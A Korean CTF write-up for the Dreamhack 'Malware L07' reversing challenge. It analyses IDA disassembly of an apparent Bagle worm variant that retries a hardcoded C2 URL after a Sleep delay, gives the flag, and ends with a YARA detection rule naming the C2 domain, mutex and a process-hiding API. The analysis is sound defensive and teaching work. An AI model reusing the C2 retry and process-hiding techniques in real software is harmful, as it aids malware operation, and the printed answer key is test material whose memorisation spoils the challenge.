


# [Dreamhack] Malware L07 - Reversing

## 1. 문제 개요

* **문제 링크:** [Dreamhack - Malware L07](https://dreamhack.io/wargame/challenges/374)

* **분야:** Reversing

* **목표:** 제공된 악성코드 분석 파일(PDF)의 실행 흐름을 파악하여, 외부 사이트 접속 실패 시 재접속을 시도하는 시간 간격(ms) 도출.

### 1.1. 악성코드 식별 정보

* **식별 단서:** `bagla_super_downloader_1000` 문자열 및 `RegisterServiceProcess` API (Windows 9x용 프로세스 은폐 함수) 사용

* **분석 결과:** 2004년 대량 유행했던 **Bagle Worm (베이글 웜)** 계열의 변종 악성코드로 식별됨.



## 2. 취약점 분석
제공된 `07.pdf` 파일은 실제 실행 가능한 바이너리가 아닌, IDA의 제어 흐름도를 캡처한 문서. 어셈블리어 명령어를 따라가며 네트워크 통신 및 시간 지연과 관련된 분기점 및 호출 함수 파악.

> 💡 **분석 메모:** IDA가 주석으로 표기해 준 문자열(`"http://noshit.fateback.com/"`)과 윈도우 API(`Sleep`)를 기준으로 로직 추적 진행.

```assembly
; ... (중략) ...

loc_401950:
push    0                               ; int
push    offset aHttpNoshit__f_0         ; "http://noshit.fateback.com/"
call    sub_4013A1                      ; 사이트 접속을 시도하는 서브루틴 호출
add     esp, 8
cmp     eax, 29Ah                       ; 결과값(eax)과 특정 에러/상태 코드(29Ah) 비교
jnz     short loc_401973                ; 다르면(true) loc_401973으로 점프
                                        ; 같으면(false) 아래 00401966 블록으로 직진

; ... (중략) ...

00401966:
push    96000h                          ; dwMilliseconds (대기 시간 인자)
call    ds:Sleep                        ; 윈도우 Sleep API 호출 (대기)
jmp     short loc_401950                ; 다시 loc_401950으로 강제 점프 (무한 재접속 루프)

; ... (중략) ...
```

* **분석 결론:** 악성코드는 특정 타겟 URL에 접속을 시도한 뒤 반환 값을 확인. 실패 조건(`eax`가 `29Ah`일 때)을 만족하면 `00401966` 블록으로 이동하여 `Sleep` 함수를 호출. 16진수로 `96000h` 만큼 대기한 후 다시 접속 블록(`loc_401950`)으로 점프하는 무한 루프 구조.

## 3. 공격 수행

1. 파일 탐색기를 통해 제공된 파일(`07.pdf`) 내부의 어셈블리 제어 흐름 그래프 확인.



2. 악성 사이트(`http://noshit.fateback.com/`) 접속 로직 이후 `cmp`와 `jnz` 분기점을 통해 실패(false) 시 떨어지는 하단 블록 식별.

3. 해당 블록에서 시간 지연 역할을 하는 `Sleep` 함수 발견. 함수 호출 직전 스택에 밀어 넣는(Push) 인자 값 `96000h` 확보.

4. 해당 값을 밀리초(ms) 단위의 10진수로 변환(`96000(16) = 614400(10)`)하여 최종 플래그 계산.

## 4. 획득 결과
어셈블리어 분기문 분석을 통해 대기 시간 인자를 찾아내고 10진수로 변환하여 플래그 획득 성공.

* **FLAG:** `614400`

## 5. 대응 방안
프로그램 내에서 무한 재접속을 시도하는 악의적인 네트워크 행위 및 구시대적 프로세스 은폐 로직에 대한 방어 조치 및 시큐어 코딩 적용.

* **무한 재접속 및 타임아웃 방지:** 애플리케이션 개발 시 외부 네트워크 리소스 접속에 대한 최대 재시도 횟수(Max Retries) 및 타임아웃 설정. 지연 시간을 점진적으로 늘리는 지수 백오프(Exponential Backoff) 알고리즘 도입.

* **프로세스 은폐 API 사용 지양:** `RegisterServiceProcess`와 같은 Windows 9x 계열의 비정상적인 프로세스 숨김 API 사용을 금지하고, 최신 OS 환경에 맞는 합법적인 백그라운드 서비스 등록 방식(Windows Service) 사용.

## 6. 블루팀 관점 요약

### 6.1. 탐지 및 분석 한계
* **단편적 정보의 한계:** 바이너리 원본이 아닌 일부 실행 흐름의 캡처본만 존재하므로, 전체적인 악성코드 패밀리 식별, 암호화 로직 유무, 드롭(Drop)되는 추가 파일 등의 종합적인 동적 분석에 한계 존재.

### 6.2. YARA 탐지 룰 (IoC)
바이너리 정적 분석 화면을 통해 확보한 호스트 기반 단서(하드코딩된 특정 뮤텍스 및 주요 API)와 네트워크 단서(C2 문자열)를 활용한 YARA 탐지 룰 제안.

```yara
rule Detect_Malware_L07 {
    strings:
        // 하드코딩된 악성 C2 도메인 시그니처
        $c2_url = "http://noshit.fateback.com/" ascii

        // 중복 실행 방지용 특이 뮤텍스 명
        $mutex = "bagla_super_downloader_1000" ascii

        // 구형 OS 타겟의 프로세스 은폐 API
        $api_hide = "RegisterServiceProcess" ascii
        
        // 16진수 특정 Sleep 대기 시간 (Byte Pattern)
        $hex_sleep = { 68 00 60 09 00 } // push 96000h

    condition:
        ($c2_url or $mutex) and ($api_hide or $hex_sleep)
}
```